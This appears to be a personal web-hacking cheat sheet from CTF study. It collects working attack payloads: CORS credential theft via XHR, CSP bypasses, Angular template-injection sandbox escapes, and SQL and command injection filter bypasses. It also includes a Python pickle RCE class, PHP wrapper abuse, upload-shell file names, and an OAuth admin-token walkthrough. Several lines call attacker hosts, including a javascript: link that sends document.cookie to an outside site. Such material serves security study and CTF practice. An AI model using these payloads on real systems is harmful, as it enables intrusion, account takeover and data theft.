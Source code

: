 >WEB

#Headers

## Content-Type

**This literally can do magic**<br/>
**Try to extract every content-type that webApp accept in file Uploader, post , get requests etc.**

```
	Content-Type: application/json
	Content-Type: application/x-shockwave-flash
	Content-Type: application/js
	Content-Type: text/xml
	Content-Type: application/x-www-form-urlencoded
```

**This can help us to bypass many checks like example look at the code**

```
	x = req.body.data;
	if(x.length>1){
		console.log("fuck , u cant win");
	}else{
		if(x=="123"){
			console.log("Nice bypass, Well in JS "123"==["123"] :P ");	
		}else{
			console.log("Nice try");
		}
		
	}
```
**Now to bypass this if we send data : <br>
`Content-Type: application/x-www-form-urlencoded` and `data=123` <br>
we will loose, so knowing if other content types are acceptable , we can use it like, <br>
`Content-Type: application/json` and `{data:[123]}` <br>
 we bypass length check and also `"123" == ["123"]` .**

**Lets take challenge to next level**
```
	const regex = /[<>]/;
        
        if(regex.test(req.body.name)){
            res.send("damn, You cant have brackets boy");
        }else{
            console.log("well, here is response that i'll directly render into web-page bcz you are baby whos brackets are exposed");
            body.html(req.body.name)
        }
```
>Now , obviously the task is to call body.html with `<>` tag , but sure enough these tags are regexd .<br />
<br/>
**So a simple solution will be use `Content-Type: application/json` to send json data as <br />
`curl -X POST -H "Content-Type: application/json" --data '{"name":{"a" : "here<script>"}}'` <br/>
and this will bypass the filter as name is now a object not a string  .**


**If an file uploader allows `Content-Type: text/xml` we can upload SWF which can be used for SOP bypass , XSS , Open redirect , and leak CSRF token etc. I have a xss.swf for it .**


## Acess-Control-Allow-Origin

**This can be due to many reasons like `Misconfigured CORS` , `Bypassing checks etc` .Can be used to `full Acc. takeover` if `Access-Control-Allow-Credentials: true` ,`CSRF Token hijacking` etc. Best Values for us "**

* `Access-Control-Allow-Origin: https://www.site.com.attacker.com`
* `Access-Control-Allow-Origin: *`
* `Access-Control-Allow-Origin: null`

```
curl https://test.victim.com/api/requestApiKey -H "Origin: https://evil.com" -v
```
>And check the response if Origin is reflected in the response in ACAO.

**Exploiting..**
```
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://test.victim.com/api/requestApiKey',true);
	req.withCredentials = true;
	req.send();
```

some resources : <br>
https://www.geekboy.ninja/blog/tag/cors-exploitation/
https://portswigger.net/kb/papers/exploitingcorsmisconfigurations.pdf


## X-Forwarded-For

**If you are unauthorized to access some page based on IP address**
> so this is basically if u cant acccess a page bcz u dont belong to internal network
this header is basically what usually progamming language use to determine the IP of 
incomming request, so this might help you spoof IP

```
GET / HTTP/1.1
Origin: 192.121.22.45
X-Forwarded-For: 192.121.22.2
```
> use CTS(critical thinking skills) now to find its value, usually something from the network, or localhost or some trusted 3rd party site is using etc

#Xss Tricks

## Using `__proto__` to included blacklist values in object

**Object proto property .**
```
t = {}
userInput = [ INPUTHERE ]
if(userInput.thisCannotExist){
	console.log("Sorry u cannot have this value in input");
}else{
	t = {...t,...userInput};
}
if(t.thisCannotExist){
	console.log("How did u get this here?");
}

```
**So input cannot have `thisCannotExist` key .**

> Bypass is simple. `userInput = {'__proto__' : { 'thisCannotExist' : 'yo' } }`.


#CSP Bypass

##Missing `base-uri` in CSP 

>Note! Its possible when there is HTML Injection in head and site uses relative URL and injection need to be in head for `<base>` tag

If the scripts are loaded as `<script src='/app.js' nounce=1231231231>` and csp only allows to load script with nounce , using html injection we can add
`<base src='https://evil.com'>`<br>
and then scripts will be loaded from our url now

##Exploiting `Missing script-src self`
>Since script-src is not limited to self, we can load javascript from our own website. Additionally, we can even dynamically load javascript from specify URL.

```
exploit = <script src=http://example.com/evil.js>
```
will just fetch content of evil.js from our server as self is not mentioned in CSP.


##https://csp-evaluator.withgoogle.com/

**Use that site to copy paste whole CSP and find vulneribilities**

example copy,
```

default-src 'none';
script-src 'nonce-23434534' 'strict-dynamic';
style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css;
img-src 'self';
connect-src 'self';
frame-src https://www.google.com/recaptcha/;
form-action 'self';

```
all these into it, and u will find 2 exploits, base-uri missing i.e `<base>` tag attack, and self in script missing so `script-src attack`


# SSRF and IP Bypass

## IP Bypasses

**So lets see ways to bypass checks to include IP address .**

```
userInput = [ INPUTHERE ]
if (userInput && userInput.value.indexOf('.') == -1 && userInput.value.indexOf("//") == -1 && userInput.value.indexOf("。") == -1 && userInput.value && typeof(userInput != 'object')) {
        if (userInput.type == "img") {
            <img src=[INPUTHERE] />
        } else {
            alert("-_-");
        }
    }
```
>The bypass is :` { value : "\\\\1869573999" } `

* **So there are 2 checks input cannot have `.(dot)` and `//` preventing us to write http://any[dot]com .**

* **`//` can be bypassed using one of chrome features - putting double backslash `\\\\`(we need 2 backslash so 4 bcz 1 escape other) as a URL prefix will be replaced with current schema - so http://. What's worth to mention, it works like this only on linux. In windows version of chrome \\ is replaced with file:// .**

* **Cannot have `.`(dot) -_-. `1869573999` is decimal representation of IP address . Ip address can be represented as hex,decimal,oct binary. so in decimal looks like `http://3512041827/` octal looks like `http://0100.0351.0251.0152/` , `http://00C0.00A8.002B.005C` etc .**



# SSTI

## Angular
	
* `{{5*5}}`
* `{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}` for Versions 1.3.0-1.5.7
* `{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}` for Versions 1.2.20-1.2.29
* `{{c=toString.constructor;p=c.prototype;p.toString=p.call;["a","alert(1)"].sort(c)}}` for 1.2.19
* `{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}` for 1.2.6 - 1.2.18
* `{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}` for 1.2.0 - 1.2.5

# Fuzzing

## How to fuzz

**Fuzzing is the rank 2 thing we should start after RECON. But this will need us to think differently, exploiting web app is not hard, finding bug is hard.**

**Imagine this scenario : you want to buy a shirt for your friend, now what things will you keep in mind ? <br/> Size? color? this is linear thinking <br /> think shirt as a object, what things will it contain? <br /> collar,size,color,fullarm/halfarm ? etc .** <br />

**This approch to think in multi direction is needed, lets apply it to our scenario now. .**


# Race Condition

**Finding Race Condition is basically just see if some API is taking too long to response, could be due to computation, saving to cache, retrieving db etc .**
[writeup in web/race Condition]


# SQL Injection


## sql-ite injection with not allowed > spaces ' " union select

* `%0a` to make spaces
* `unUnionion` string cutting because it was replacing our input

> get table names
```
?id=1%0aununionion%0aselselectect%0a1,2,group_concat(tbl_name)%0afrom%0asqlite_master--
```
> get column names
```
?id=1%0aununionion%0aselselectect%0a1,2,group_concat(sql)%0afrom%0asqlite_master--
```

## procedure analyses to get column name

```
SELECT id, name, pass FROM users WHERE id = x  LIMIT 1,1  PROCEDURE ANALYSE() --
```
## 1%0 trick and MySQL subqueries

**USE IT WHEN**
* **Tbl name is known+ columns is not null**

>Ok, imagine you have the table USER_TABLE. You don’t have any other informations than the table’s name.
The sql query is expecting only one row as result.

Here is our input:
` AND (SELECT * FROM USER_TABLE) = (1)––`

MySQL answer:
**Operand should contain 7 column(s)**

MySQL told us that the table USER_TABLE has 7 columns! That’s great!

Now we can use the UNION and 1%0 to retrieve some column’s name:

The following query shouldn’t give you any error:
` AND (1,2,3,4,5,6,7) = (SELECT * FROM USER_TABLE UNION SELECT 1,2,3,4,5,6,7 LIMIT 1)–– `

Now let’s try with the first colum, simply add %0 to the first column in the UNION:
` AND (1,2,3,4,5,6,7) = (SELECT * FROM USER_TABLE UNION SELECT 1%0,2,3,4,5,6,7 LIMIT 1)–– `

MySQL answer:
**“Column ‘usr_u_id’ cannot be null”**

We’ve got the first column name: “usr_u_id”

Example with the 4th column:
` AND (1,2,3,4,5,6,7) = (SELECT * FROM USER_TABLE UNION SELECT 1,2,3,4%0,5,6,7 LIMIT 1)–– `

## Extracting Column names

![alt](./images/sql1.png)

0′ UNION SELECT version(),null /*
or:
0′ UNION SELECT @@version,null /*


# Comman Vulnerabilities

## LFI/LFD
## IDOR
## CORS

**ACAO header checking .**

## DATA Leak
## CSRF
## XML injection
## XXE

## Parameter polluting

>Tips
* Always use `%26` instead of `&`


## File Uploading Injection

* Try `shell.php` , `shell.pHp5` , `shell.php4`,`shell.php4;`,`shell.php4%00` ,`shell.phtml`,`shell.pht` , `shell.pgif` , `shell.phpt`,`shell.shtml`
* filename `<svg/onload=prompt(1)>.png`
* see if flash file can be uploaded
* change Content-Type , upload `shell.png` with php content and intercept request and change content-type from `png` to `php5`
* ~~ImageTragic~~ `have to read this`
* shell in gif/png files

## LDAP

**These are like sqli just use `*` or `|` or `&` to find it .**
```
http://web.chal.csaw.io:8080
http://web.chal.csaw.io:8080/index.php?search=pete*
so search is like `select * from whtever where (&(name=INPUT)(uid=123))`
so 
http://web.chal.csaw.io:8080/index.php?search=pete*)(uid=123 
will confirm injection of uid
http://web.chal.csaw.io:8080/index.php?search=pete*)(uid=123)(|(uid=*
will inject uid
```

## Command Injection

```
blackList = [";","&","|"," ","cat"];
userInput = req.get("cmd");
if blacklist.includes(userInput):
	exit("ERROR")
else:
	system("ping -c 4 ".userInput)[:86]; // so even if someone append something, ping's result is whats 									 // output only
```
> exploit : `index.php/?cmd=error%0ac'a't$IFS/etc/flag`
> So there is a simple blacklist. so lets see how to solve it 

* Use burp intruder we can find these blacklist 
* Now we need to append our command but `&`,`;` and `|` are blocked, so lets see whats are its bypasses
	* `%0a`, `%0A` 
	* `^`
	* `%0d`, `%0D`
* Next we need can simply make 'error' in 1st query by `ping error`%0a[nextCommand]
* Now next command cannot have space, so we have many things to avaoid having space
	* `%0a{cat,/etc/flag}` , the {ls,-l,a,Gh} is a shell feature equivalent to `ls -l a Gh`
	* `%0acat$IFS/etc/flag` , the `$IFS` is shell variable equivalent to space
	* `%0acat${IFS:0:1}/etc/flag`, setting this IFS variable length
	* `%0ad=$'cat\x20/etc/flag'%0a$d` , so `$'\x20'` is translated to space
* Now `cat` is blocked , we can easily use `tail`, `head` etc but cmon we are hackers
	* `c'a't` in shell is equal to cat
	* `c$@at` is again cat
	* `c\a\t`
	* `c"a"t`
	* ***/




## OAUTH2

>`/oauth2/authorize` gives you auth token to authorize urself 

```

> curl -X POST --data "response_type=code&redirect_uri=web.chal.csaw.io:9000/oauth2/token" --header "Content-Type: application/x-www-form-urlencoded" web.chal.csaw.io:9000/oauth2/authorize

< Redirecting to <a href="web.chal.csaw.io:9000/oauth2/token?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyZWRpcmVjdF91cmkiOiJ3ZWIuY2hhbC5jc2F3LmlvOjkwMDAvb2F1dGgyL3Rva2VuIiwiaWF0IjoxNTM5MTI0MTE4LCJleHAiOjE1MzkxMjQ3MTh9.RZJx1tftkU9pEm7-2m1mM-sTaxgJJEwzlP7-rkjhjPU&amp;state=">web.chal.csaw.io:9000/oauth2/token?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyZWRpcmVjdF91cmkiOiJ3ZWIuY2hhbC5jc2F3LmlvOjkwMDAvb2F1dGgyL3Rva2VuIiwiaWF0IjoxNTM5MTI0MTE4LCJleHAiOjE1MzkxMjQ3MTh9.RZJx1tftkU9pEm7-2m1mM-sTaxgJJEwzlP7-rkjhjPU&amp;state=</a>.


```

>`/oauth2/token` to get the admin token (here code param value is what we get from above request rest all values are usually same)
```
> curl -X POST --data  "grant_type=authorization_code&code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyZWRpcmVjdF91cmkiOiJ3ZWIuY2hhbC5jc2F3LmlvOjkwMDAvb2F1dGgyL3Rva2VuIiwiaWF0IjoxNTM5MTIzNDk2LCJleHAiOjE1MzkxMjQwOTZ9.up2K5DnLBIeO_vPJREaOfG0XvsppUthhcqXcFWacprM&redirect_uri=web.chal.csaw.io:9000/oauth2/token" web.chal.csaw.io:9000/oauth2/token
```
>next just use Authorization: Bearer `response token from /token` and you are admin

* **Redirect URI should be same in both case of /authorize and /token if we can pass different uri, its a bug** <br/>
* **If we are able to use the token twice still a bug**<br/>
* **This redirect uri if point to our url and still gives token is also a vulnerablility**<br/>


# Deserialization


## Python


>Suppose the task is simply read `flag.txt`

```
x = cPickle.dumps(raw_input())
try:
	out = cPickle.loads(base64.b64decode(x))
except:
	pass

response.send(out)
```

**So it takes out input and does dumps on it so we dont have to do it**

>solution

```
class PickleRce(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.getoutput,('cat flag.txt',))

out = PickleRce()

```






# Bypasses

##PHP cannot have `_` 

**PHP functionality  converts `.` and spaces into `_`, so `site.com/?c.m.d=23` gets converted to "$c_m_d=23" .**

##spaces are not allowed

**Use `+` in query string to bypass space .**


## Python "a""b" is "a"+"b"

**Well  if in python + is blocked , we can just use this trick to append**

## Python3 f''

https://github.com/p4-team/ctf/tree/master/2018-07-13-meepwn-ctf/web_pycalcx#pycalcx2-54-solved-100p

```
FLAG = "hello"
source = raw_input()

f'Tru{FLAG<source or 14:x}'  

```
* We use the short circuit `or` to get one of the two results, depending on the result of comparison `FLAG < source`, i.e , `True or 14` returns True and False or 14 returns 14.
* We use x modifier to turn 14 into hex digit e
* `Tru{FLAG<source or 14:x}` therefore evaluates to either `Tru1` or `True`, depending on the FLAG>source condition


## REGEX bypassing

**Approch**

* use burp intruder to find all the blocked characters ,ex / `site.com/?id=%$$` in intruder and intefer from `1` to `ff`, will make 255 requsest from %00 to %FF finding blocked characters
* now imagine we get blocked `%20` = `space`, `%3b` = `;` , `%26` = `&`, so now make a list of allowed yet dangerous chars,
* so we can send `%00`, `%0a` , `{`,`}`,``` ` ```, `$`,`<`,`>`,`/`,`\`,`,`,`"`,`'` etc
* Now just find the appropriate bypass


```
$cmd = $_GET['c_m_d'];
if(!preg_match('/[a-z0-9]/is', $cmd)){
	system("/sandboxed_bin/".$cmd);
}
```
* Find supported UTF encoding, cuz `a` === `à`, finding unicode can help here.
* `GET  : /?c_m_d[]='ls'` will make cmd as array and bypass check in PHP
* `POST : { c_m_d : ['ls']` with `Content-Type: application/json` in any.
* `GET  : /?c_m_d=???+????.???` will be cat flag.txt and bypass regex

**some command bypasses**

* Try mixing upper+lower case `HtTp` 
* `regex : a.*b` can be bypassed `a%0Ab`

```
$black_list = "/admin|guest|limit|by|substr|mid|like|or|char|union|select|greatest|%00|\'|";
$black_list .= "=|_| |in|<|>|-|chal|_|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit();
if(preg_match($black_list, $_GET['pw'])) exit(); 

$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

```
* using `\` to bypass next letter. so  `'` is block ,use `\`,i.e `/?user=\&pw=||user/**/REGEXP/**/%22admi%22||%22n%22;%00` ,making this request <br/>
we get `where user='\' and pw='||user REGEXP "admi||n" '` where regexp is mysql feature


## PHP file_get_content 

**This is super dangerous**

```
$f = $_GET['content'];
file_get_contents($f);
```

Possible values of `$f` are:
* file_get_contents('https://www.evil.com/mydata'); so `$f = https://www.evil.com/mydata`
* `php://input` and "mydata" in POST `so $f=php://input`
* All php wrapper , `php://filter`, `php://fd/0` etc
* `$f = data://text/plain,Hello Challenge! `
* `$f = data://text/plain;base64,SGVsbG8gQ2hhbGxlbmdlIQ`


## PHP Assert

**They have code execution**
so if we have 
```
$x=$_GET['key'];
assert($x > 50);
```
so if we put `site.com/?key=printf('flag'); //`

this will execute the command.

# URL's

## `..\Q/\E` in Ruby equals `../`

## Nginx off by slash

**Python's Djano, ruby etc donot have inbuilt static files folder, so ppl put nginx infront of these apps for <br/>
delivering static file .**

**In `nginx` we can define a alias for a location .eg**
```
location /static {
	alias /home/pi/;
}
```
exploit : `127.0.0.1/static../`, so `/static` in route matches `location /static` <br/>
causing to make path=`/home/pi/../` giving us access to 1 directory above

>so how to find this
* http://target.com/asset/app.js  [200 OK]
* http://target.com/asset/		  [403] 
* http://target.com/asset/../setting.py [404]
* http://target.com/asset../ 			[403]
* http://target.com/asset../assets/app.js [200] :O wow but yeah, we might get `alias.com/alias/../assets/app.js`
* http://target.com/asset../setting.py    [200] is file is in above directory else 404?

## javacript:alert

if we can insert links
```
javascript:document.location="http://mysite.com/"+document.cookie
```

## python flask url checks bypass

```
from  werkzeug.urls import url_parse

@app.route('/xyz'):
	
	postdata = app.request.post("url")
	scheme, netloc, path, query, fragment = url_parse(postdata)
	if path.startsWith("/cannotViewThisPage"):
		return None
	else:
		request.get(postdata,allow_redirects=False) # if this is true , just redirect and get

@app.route('/cannotViewThisPage'):
	if request.remote_addr != "127.0.0.1":
			// if request not comming locally, fuck him
			return "Fuck off"
	else:
		print "you win"
```

> ok so task is simple, we need "you win"
payload
```
POST site.com/xyz

url=http://localhost///cannotViewThisPage
```

so `url_parse` will return path of `http://localhost///cannotViewThisPage` as "///cannotViewThisPage"
which indeed dont start with "/cannotViewThisPage" and when request module makes reques, python django will hit /cannotViewThisPage









